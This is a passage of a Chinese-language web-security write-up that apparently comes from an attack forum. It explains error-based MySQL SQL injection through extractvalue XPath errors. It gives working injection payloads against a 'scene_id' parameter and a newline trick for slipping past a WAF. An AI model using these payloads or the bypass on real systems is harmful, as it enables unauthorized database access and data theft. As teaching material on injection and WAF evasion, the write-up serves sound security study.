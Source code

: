 > Y函数:  
> [https://dev.mysql.com/doc/refman/5.7/en/gis-point-property-functions.html#function\_y](https://dev.mysql.com/doc/refman/5.7/en/gis-point-property-functions.html#function_y)
> 
> 虽然官方函数没有给出示例用法，但是给出了ST\_Y()的用法，这个ST\_Y()在目标环境是不存在报错的，但这两个函数的用法是一致的。
> 
> ![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-cbd34c53a31e290037e9acccb7e691d71d9b76a2.png)  
> Usage:
> 
> ```bash
> mysql> SELECT ST_Y(Point(56.7, 53.34));
> +--------------------------+
> | ST_Y(Point(56.7, 53.34)) |
> +--------------------------+
> |                    53.34 |
> +--------------------------+
> ```

尝试payload: `scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,database())%23` ，没有waf拦截，但是没有返回报错。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c812faf67d97cf0a453b02a014d8b22d8de4c6aa.png)

这又是为什么呢? 这里需要注意一个很经典的问题，很多人并不是很了解extractvalue的报错原理:

本质在于第二个参数的类型应该为xpath表达式，否则会出现错误，并抛出整句执行后的错误信息，故构造非法的xpath表达式即可导致报错，从而将数据回显出来。

> ![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-97134326da7cbe01fbd26ad8eb8e829cda79d77b.png)  
> 举个例子:

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b170ce2cf32c421c5673f9166c0aef3ed8926f88.png)

第一个参数其实是可以任意的值的，只要不为空，第二个参数我们传入一些不符合xpath表达式的值即可。

```bash
mysql> select extractvalue(0, '1123@123');
ERROR 1105 (HY000): XPATH syntax error: '@123'
```

可以看到，XPATH的回显，只会显示语法开始报错往后的部分，这也是经常容易让人迷糊的地方，需要额外注意。那么我们如何利用这个特性来带出我们想要的值呢，这里我们可以考虑用`concat`拼接非法的表达式，然后后面接我们想要回显的内容。

```php
mysql> select extractvalue(0,concat(0x7e, "123"));
ERROR 1105 (HY000): XPATH syntax error: '~123'
```

通过上面的讲解，了解完报错注入的原理后，回到WAF上面，可以知道之所以没有报错是因为数据库名没有包含特殊字符，那么我们可以通过构造如下的报错语句:

```php
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat(0x7e,database()))%23
```

直接被拦截了，但是通过在`concat`后加上换行即可绕过。
